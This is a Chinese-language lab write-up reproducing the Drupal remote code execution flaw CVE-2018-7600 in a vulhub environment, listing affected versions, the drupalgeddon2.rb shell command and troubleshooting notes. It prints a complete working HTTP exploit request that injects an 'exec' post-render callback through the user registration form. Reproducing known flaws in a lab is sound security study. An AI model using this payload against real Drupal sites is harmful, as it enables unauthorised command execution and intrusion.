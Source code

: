 # 0x00 复现环境
使用复现环境：https://github.com/vulhub/vulhub/tree/master/drupal/CVE-2018-7600

# 0x01 利用条件
无

# 0x02 影响版本
7.23<=7.x<=7.57  
8.3.x<=8.3.8  
8.4.x<=8.4.5  
8.5.x<=8.5.0

# 0x03 漏洞复现
执行“ruby ./drupalggedon2.rb http://172.16.35.128:8080”  
会返回一个shell，可在返回的shell中执行命令，如下图  
![image](./0.png)

# 0x04 踩坑记录
坑1：  
环境创建完之后，使用kali下的firefox访问127.0.0.1:8080时，burp不能抓到数据包，原因未知，解决方案：使用kali下的firefox访问局域网ip“172.16.35.128:8080”  
坑2：  
登录状态下使用vulhub中的poc无效，需要登出后才可执行命令id，vulhub中的poc如下:  
```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```
坑3：  
使用vulhub中的poc执行命令“ls”，只能看到一个文件“web.config”，执行命令“ls -a /”也只能看到一个文件“var”

# 参考链接
https://github.com/vulhub/vulhub/tree/master/drupal/CVE-2018-7600

